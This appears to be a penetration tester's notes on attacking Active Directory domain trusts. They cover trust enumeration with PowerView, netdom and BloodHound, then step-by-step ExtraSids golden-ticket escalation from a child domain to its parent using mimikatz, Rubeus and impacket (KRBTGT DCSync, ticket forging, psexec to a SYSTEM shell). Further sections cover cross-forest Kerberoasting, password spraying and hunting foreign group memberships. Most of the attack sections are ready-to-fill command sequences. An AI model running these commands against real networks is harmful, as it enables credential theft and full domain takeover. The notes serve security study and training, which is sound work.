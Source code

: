 A [trust](https://social.technet.microsoft.com/wiki/contents/articles/50969.active-directory-forest-trust-attention-points.aspx) is used to establish forest-forest or domain-domain (intra-domain) authentication, which allows users to access resources in (or perform administrative tasks) another domain. 
	Transitive -- trust is extended to child domain trusts. If A=B and B=C, then A=C
	Non-Transitive -- Only child domain is trusted
	One-way trust - one way trust...
	Bidirectional trust -- trust goes both ways

## Enumerating Trust Relationships

Enumerating Trust relationships
```PowerShell
# built-in module
Import-Module activedirectory # native to powershell
Get-ADTrust -Filter *

# PowerView
Import-Module .\PowerView.ps1
Get-DomainTrust          # Check for existing trusts
Get-DomainTrustMapping   # map the existing trusts

# netdom (cmd)
netdom query /domain:<domain> trust           # query trusts
netdom query /domain:<domain> dc              # query DCs
netdom query /domain:<domain> workstation     # query workstations

# BloodHound
Map Domain Trusts prebuilt query
```

IntraForest property: True indicates a child domain
ForestTransitive property: True indicates this is a forest trust OR external trust

Enumerating Users in Child Domains
```PowerShell
Get-DomainUser -Domain <child_domain> | select SamAccountName
```

## Attacking Domain Trusts -- Child -> Parent
If we PWN a Child Domain, we may be able to escalate to the Parent Domain via SID History Injection.

During a domain migration, a user's original security identifier (SID) is added to the new account's [SID-History](https://docs.microsoft.com/en-us/windows/win32/adschema/a-sidhistory) attribute, which ensures they retain access to old resources. Attackers can exploit this by injecting an administrator's SID into the sidHistory of a less-privileged account they control. This grants the account administrative privileges upon LOGIN, enabling actions like DCSync and Golden Ticket attacks for full domain control.

Requirements:
	Child Domain (will need full control)
		KRBTGT hash
		SID
		name of target user (does not need to exist!)
		FQDN
	Root Domain
		SID of Enterprise Admins group

#### ExtraSids Attack (Golden Ticket) -- Windows
```powershell
# Collecting Our Requirements
.\mimikatz.exe
lsadump::dcsync /user:<domain\krbtgt>  # Obtain KRBTGT Hash (Mimikatz)

Import-Module .\PowerView.ps1
Get-DomainSID                          # Get Domain SID (also in mimikatz output)

net user /domain                       # potential targets (or make it up (hacker))

Get-DomainGroup -Domain <domain> -Identity "Enterprise Admins" | select distinguishedname,objectsid            # Enterprise Admin SID

# Create Golden Ticket with Mimikatz
.\mimikatz.exe
kerberos::golden /user:hacker /domain:<CHILD_FQDN> /sid:<child_domain_SID> /krbtgt:<NTLM_hash> /sids:<Enterprise Admins SID> /ptt

or
# Crete Golden Ticket with Rubeus
.\Rubeus.exe golden /rc4:<krbtgt_NTLM_hash> /domain:<child_FQDN> /sid:<child_domain_SID>  /sids:<Enterprise Admins SID> /user:hacker /ptt

# Confirmation
klist

# Test with DCSync Attack
.\mimikatz.exe
lasdump::dcsync /user:<DOMAIN>\<domain admin> /domain:<FQDN>  # specify FQDN
```
From here you can then do whatever you want to the parent domain...


#### ExtraSids Attack (Golden Ticket) -- Linux
```Bash
# Collect Requirements
impacket-secretsdump <child_domain>/<user>@<ip> -just-dc-user <DOMAIN>/krbtgt 
impacket-lookupsid <child_domain>/<user>@<ip> | grep "Domain SID"
impacket-lookupsid <child_domain>/<user>@<DC_ip> | grep -B12 "Enterprise Admins"

# Create Golden Ticket
impacket-ticketer -nthash <krbtgt hash> -domain <child FQDN> -domain-sid <child SID> -extra-sid <Enterprise Admins SID> hacker

# Set KRB5CCNAME env variable
export KRB5CCNAME=hacker.ccache

# PWN with SYSTEM shell
impacket-psexec <child FQDN>/hacker@<DC hostname>.<domain>.local -k -no-pass -target-ip <DC_IP>

__________________________________________________________________________
# AUTOMATED escalation from child to parent domain and authentication to parent DC
impacket-raiseChild -target-exec <DC_IP> <child FQDN>/<child_local_adm>

```

## Attacking Domain Trusts -- Cross-Forest Trust Abuse

#### Cross-Forest Kerberoasting
Kerberos attacks such as Kerberoasting and ASREPRoasting can be performed across trusts, depending on the trust direction.

Windows
```powershell
# Enumerate Accounts with Associated SPNs
Import-Module .\PowerView.ps1
Get-DomainUser -SPN -Domain <FQDN> | select SamAccountName
Get-DomainUser -Domain <FQDN> -Identity <Account> |select samaccountname,memberof

# Kerberoast using Rubeus
.\Rubeus.exe kerberoast /domain:<FQDN> /user:<Account> /nowrap

# Crack with Hashcat
```

Linux
```bash
# Enumerate Accounts with associated SPNs
impacket-GetUserSPNs -target-domain <FQDN of other forest> <DOMAIN/user we control>

# Kerberoast 
impacket-GetUserSPNs -request -target-domain <FQDN of forest> <DOMAIN/user we control>
-outputfile <file>   # redirect hash to file 

# Crack with hashcat
```


#### Admin Password Re-Use & Group Membership
Attackers can leverage a bidirectional forest trusts to move from a compromised domain to a trusted one. This is often achieved through password reuse where creds are SHARED between forests.

Another method involves group membership, where a highly privileged user from a compromised domain is a member of an administrative group in the trusting domain

Password Reuse
	just password spray with `nxc` 

Hunting Foreign Group Membership -- Windows
```PowerShell
# Enumerate groups with users that do not belong to domain
Import-Module .\PowerView.ps1
Get-DomainForeignGroupMember -Domain <FQDN> # Make note of SID
Convert-SidToName <SID>

# Access Host of other forest
Enter-PSSession -ComputerName <hostname>.<FQDN of other forest> -Credential <Domain>\<user>
```

Hunting Foreign Group Membership -- Linux
```bash
# Add domain information to /etc/resolv.conf
domain <FQDN> 

# Enumerate groups with users that do not belong to domain
bloodhound-python -d <FQDN> -dc <dc_hostname> -c All -u <user> -p <pass>

# Compress resultant files into 1 zip file
zip -r <name>.zip *.json

# Repeat for other AD Forests

# Upload to BloodHound and Enumeration
Dangerous Rights > Users with Foreign Domain Group Membership
```

